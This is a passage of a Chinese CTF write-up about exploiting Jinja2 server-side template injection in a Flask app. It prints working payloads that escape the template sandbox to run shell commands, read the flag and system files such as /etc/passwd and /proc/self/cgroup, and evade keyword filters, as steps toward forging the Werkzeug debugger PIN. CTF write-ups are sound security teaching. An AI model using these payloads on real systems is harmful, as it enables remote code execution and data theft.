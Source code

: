 ```python
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```
或者
```python
{{''.__class__.__base__.__subclasses__()[77].__init__.__globals__['sys'].modules['o'+'s'].__dict__['po'+'pen']('cat /this_is_the_fl'+'ag.txt').read()}}
```
读取flag
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
还可以使用切片省去了拼接flag的步骤
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}
```

![](https://img-blog.csdnimg.cn/20200414153616194.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70)

**预期：**

这里借鉴一下师傅的文章：
要想生成PIN码，我们需要获得下面几个信息，所需要的信息均可以通过读文件来获得：
一：服务器运行flask所登录的用户名。通过读取/etc/password可知此值为:`flaskweb`
```python
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```

![](https://img-blog.csdnimg.cn/20200414162943450.png)

二：modname的值。一般不变就是`flask.app`
三：`getattr(app, "__name__", app.__class__.__name__)`的结果。就是`Flask`，也不会变
四：flask库下app.py的绝对路径。在报错信息中可以获取此值为： `/usr/local/lib/python3.7/site-packages/flask/app.py`
五：当前网络的mac地址的十进制数。通过文件`/sys/class/net/eth0/address`读取，eth0为当前使用的网卡：

```python
{{{}.__class__.__mro__[-1].__subclasses__()[102].__init__.__globals__['open']('/sys/class/net/eth0/address').read()}}
```

![](https://img-blog.csdnimg.cn/20200414163652555.png)
![](https://img-blog.csdnimg.cn/20200414163922605.png)

六：机器的id:
>对于非docker机每一个机器都会有自已唯一的id，linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i，有的系统没有这两个文件
对于docker机则读取/proc/self/cgroup，其中第一行的/docker/字符串后面的内容作为机器的id

我这里获取的是/proc/self/cgroup

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup', 'r').read() }}{% endif %}{% endfor %}
```
